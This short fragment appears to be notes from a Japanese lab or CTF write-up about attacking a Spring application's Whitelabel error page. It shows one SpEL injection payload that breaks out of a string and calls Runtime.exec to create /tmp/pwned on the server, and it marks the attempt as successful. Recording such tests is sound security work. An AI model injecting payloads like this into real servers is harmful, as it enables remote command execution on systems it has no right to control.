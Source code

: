 ![](./imgs/08-whitelabel-error-page.png)


* SpELを試す
	* サーバー側にファイルを作成
	  `".isEmpty() && T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned") && "a`
		* => 成功

![](./imgs/09-to-try-spel.png)
